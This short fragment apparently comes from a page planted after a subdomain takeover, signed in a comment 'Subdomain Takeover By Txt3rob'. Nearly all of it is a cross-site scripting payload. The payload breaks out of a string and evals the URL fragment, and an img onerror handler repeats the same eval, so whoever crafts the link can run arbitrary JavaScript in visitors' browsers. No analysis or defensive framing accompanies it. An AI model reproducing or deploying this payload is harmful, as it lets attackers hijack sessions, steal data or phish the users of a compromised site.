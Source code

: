 <!--- Subdomain Takeover By Txt3rob ---!>
'';var msgbox;if(location.hash){eval(location.hash.slice(1))}else{alert(1)}//<img src="xxx://" onerror="if(location.hash){eval(location.hash.slice(1))}else{alert(1)}">
msgbox+1
